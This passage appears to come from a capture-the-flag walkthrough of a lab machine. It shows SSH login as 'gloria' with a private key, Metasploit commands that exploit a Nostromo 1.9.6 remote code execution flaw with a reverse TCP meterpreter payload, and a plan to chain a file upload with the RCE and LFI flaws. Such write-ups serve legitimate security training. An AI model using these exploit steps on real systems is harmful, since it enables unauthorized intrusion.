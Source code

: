 Fortunately, we get the passphrase quickly using those commands. Try it out yourself!

We can now SSH into gloria. Don't forget that the port for SSH is 1337 (see the [nmap scan](#reconnaissance)) instead of the default port (22).
```bash
ssh -i id_rsa -p 1337 gloria@MACHINE_IP
```

We have now got a shell!

![Getting a shell through SSH](https://i.imgur.com/rwFByiE.png)

### Port 8080: Outdated Version of Nostromo (RCE)
On port 8080, we can only find a message telling us there is nothing there. This is indeed a little bit odd but there must be a reason why this is there. 

![Nothing here](https://i.imgur.com/bwnrNpw.png)

By looking back at the nmap scan, we can find that it is a Nostromo 1.9.6 server.  Fortunately for us, this version is not only outdated, but it also has a Remote Code Execution vulnerability. This can be found through searchsploit (`searchsploit nostromo 1.9.6`). According to the results of that command, we could use the builtin Python exploit. Though it needs a bit of tinkering to work. Let's open Metasploit (`msfconsole`) and search for *nostromo 1.9.6*.

![Searching for exploits](https://i.imgur.com/b20PdOJ.png)

Luckily, there is a Metasploit module disponible for that exploit. Let's try to use it against the box. [Here](https://github.com/rapid7/metasploit-framework/blob/master/documentation/modules/exploit/multi/http/nostromo_code_exec.md) is the documentation for the `exploit/multi/http/nostromo_code_exec` module. By following the instructions below, you should get a shell as gloria. Those commands are taken from the documentation:
  1. Use the exploit: `use exploit/multi/http/nostromo_code_exec`
  2. Set the port: `set rport 8080`
  3. Set the box IP: `set rhost <MACHINE_IP>`
  4. Check if the box is vulnerable: `check`
  5. Set the payload to a reverse TCP shell: `set payload linux/x86/meterpreter/reverse_tcp`
  6. Set your local IP: `set lhost tun0`
  7. Pop a shell: `exploit`

### Port 80: Insecure File Upload
By looking at the *gobuster* scan results, we can find a `/upload/` directory on port 80. When we get on it, we see a typical file upload page. 

![Upload page](https://i.imgur.com/HK75bcF.png)

If we upload an image, we can find it is really hard to get it back. Actually, a unique ID is generated for each of the files, which makes the task really harder to pop a shell that way. 

A thing we could try is to combine every other vulnerability mentioned before to exploit this file upload:
1. Upload a shell
2. Find it using the RCE
3. Achieve Script Injection using the LFI and specifying the path
